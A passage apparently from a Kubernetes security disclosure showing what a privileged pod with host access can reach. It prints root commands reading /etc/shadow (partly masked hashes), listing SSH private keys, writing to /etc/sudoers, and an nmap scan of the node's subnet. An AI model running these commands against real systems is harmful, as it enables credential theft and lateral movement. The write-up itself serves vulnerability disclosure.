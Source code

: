Other sensitive data stored on the node:
```
[root@pod-privileged /]# tree /home -a
/home
├── a.likha****v
│   ├── .bash_logout
│   ├── .bash_profile
│   ├── .bashrc
│   └── .ssh
│       └── authorized_keys
├── a.mukhame***v
│   ├── .bash_logout
...


[root@seck8s /]# ls ~/.ssh/
authorized_keys  config  id_rsa  id_rsa.pub  known_hosts


[root@seck8s /]# ls /etc/ssh/
moduli	    sshd_config       ssh_host_dsa_key.pub  ssh_host_ecdsa_key.pub  ssh_host_ed25519_key.pub  ssh_host_rsa_key.pub
ssh_config  ssh_host_dsa_key  ssh_host_ecdsa_key    ssh_host_ed25519_key    ssh_host_rsa_key


[root@seck8s /]# cat /etc/shadow
root:$6$auLWtuo4$P5KzOLL***Kd9erMv1fApzm58Htlgg.bLH0g.3U0***E/Gj6Q***QJf0:18907:0:99999:7:::
bin:*:17110:0:99999:7:::
daemon:*:17110:0:99999:7:::
...
m.ib***:$6$7STGX1cP$.F2RKy***LZ5udh9BJ9.u/XxxUynbhFHRl6k***auagppoOfTRPHMc8o0:18855:0:99999:7:::
...
```

Sudoers is writeable:
```
[root@pod-privileged /artem]# echo "  " >> /etc/sudoers
```


### Access node's network interfaces (`hostNetwork: true`)
```
[root@seck8s /]# ifconfig
...
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 188.246.***.0  netmask 255.255.255.248  broadcast 188.246.2***
        ether fa:16:3e:***  txqueuelen 1000  (Ethernet)
        RX packets 2503451  bytes 1816731848 (1.6 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 715727  bytes 151818416 (144.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
...


[root@seck8s /]# yum install nmap
...

[root@seck8s /]# nmap 188.246.***.0/24

Starting Nmap 6.40 ( http://nmap.org ) at 2021-10-13 10:18 UTC
Stats: 0:00:48 elapsed; 4 hosts completed (3 up), 3 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.57% done; ETC: 10:23 (0:00:45 remaining)
...

Nmap scan report for 188.246***.0
```